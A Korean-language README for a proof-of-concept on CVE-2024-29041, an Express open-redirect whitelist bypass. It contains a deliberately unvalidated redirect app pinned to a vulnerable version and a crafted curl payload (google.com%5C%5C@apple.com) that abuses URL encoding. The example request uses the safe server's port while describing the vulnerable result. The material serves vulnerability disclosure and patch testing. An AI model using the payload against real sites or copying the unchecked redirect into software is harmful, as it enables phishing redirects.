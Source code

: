 # CVE-2024-29041

> [Github (@j93es)](https://github.com/j93es)

> [Blog](https://j93.es)

<br/>

## 요약

아래 Express 버전에서 `req.location()` 혹은 내부적으로 `req.location()`을 이용하는 `req.redirect()`에서는 헤더의 `Location`에 값을 넣기 전, encodeurl()이라는 함수를 이용하여 인코딩합니다. 이러한 과정에서 리디렉션 화이트리스트를 우회할 수 있는 가능성이 발생합니다.

- \< 4.19.2
- \>= 5.0.0-alpha.1, \< 5.0.0-beta.3

<br/>

## PoC 구성

먼저 normal-app, vuln-app 2개의 express 서비스를 제작하였습니다. 두 서비스는 모두 query의 q에 있는 url로 리디렉션합니다.

```js
// index.js
const express = require("express");
const app = express();
const port = 3000;

app.use(function (req, res) {
  res.location(req.query.q).end();
});

app.listen(port, () => {
  console.log(`Example app listening at http://localhost:${port}`);
});
```

각 app의 package.json에 express 버전을 명시하였습니다. vuln-app은 4.19.0, normal-app은 패치가 완료된 4.19.2로 구동됩니다.

## 환경 구성 및 실행

8002에는 취약한 버전의 Express가, 8003 포트에는 안전한 버전의 Express가 구동됩니다.

```sh
# 이미지 빌드
make build

# 컨테이너 실행
make up

# 종료
make down

# 로그 보기
make logs

# 컨테이너 재시작
make restart

# 컨테이너 및 이미지 제거 가능
make clean

# 이미지 제거 후 재빌드
make rebuild
```

<br/>

## 결과

### 요청

[패치 내역1](https://github.com/expressjs/express/commit/0b746953c4bd8e377123527db11f9cd866e39f94)과 [패치 내역2](https://github.com/expressjs/express/commit/0867302ddbde0e9463d0564fea5861feb708c2dd)의 테스트 코드를 참고하여 요청 URL을 선정하였습니다.

```sh
curl -i -X GET "http://localhost:8003?q=http://google.com%5C%5C@apple.com"
```

### 안전한 Express 서버(8003 포트)

![normal](./assets/normal.png)

### 취약한 Express 서버(8002 포트)

![normal](./assets/vuln.png)

<br/>

## 정리

`http://localhost:8003?q=http://google.com%5C%5C@apple.com` 요청 시 `Location` 헤더에, 취약한 Express 버전에서는 `http://google.com\\@apple.com`가 추가되지만, 안전한 Express 버전에서는 `http://google.com\%5C@apple.com`이 추가됩니다. 이처럼 버전에 따라 인코딩된 문자열을 처리하는 방식이 상이함을 알 수 있습니다. 이를통해 취약한 Express 버전에서는 google.com이 아닌 apple.com으로 이동할 수 있는 가능성이 있습니다. 따라서 최신버전의 Express로 업데이트하는 것이 필요합니다.

